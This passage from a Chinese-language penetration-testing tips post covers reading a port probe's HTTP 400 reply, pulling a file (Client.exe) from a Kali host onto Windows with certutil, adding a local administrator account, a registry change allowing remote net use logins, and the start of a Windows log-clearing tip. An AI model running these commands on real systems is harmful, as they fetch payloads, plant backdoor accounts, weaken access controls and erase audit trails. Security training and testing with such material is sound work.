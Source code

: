 由此我们知道了这是一个http服务，因为我们发送的字符串不是一个合法的HTTP请求，因此返回一个400 Bad requests，我们还得到了系统的版本是Debian，WebServer是Apache

参考：《谈谈端口探测的经验与原理》

#### Tips 2. Windows系统从Kali下载文件

Kali:

```
python -m SimpleHTTPServer 80
```

Windows:

```
certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete
```

参考：《渗透测试中的certutil.exe》

 

#### Tips 3. 配置工作组计算机,使其支持net use远程连接

添加用户：

```
net user test test /add
net localgroup administrators test /add
```

修改注册表，使其支持远程连接：

```
reg add hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1
```

net use远程连接：

```
net use \\192.168.1.195 test /u:test
```

 

#### Tips 4. Windows日志清除

获取日志分类列表：

```
wevtutil el &gt;1.txt
```

 

获取单个日志类别的统计信息：

eg.

```
wevtutil gli "windows powershell"
```
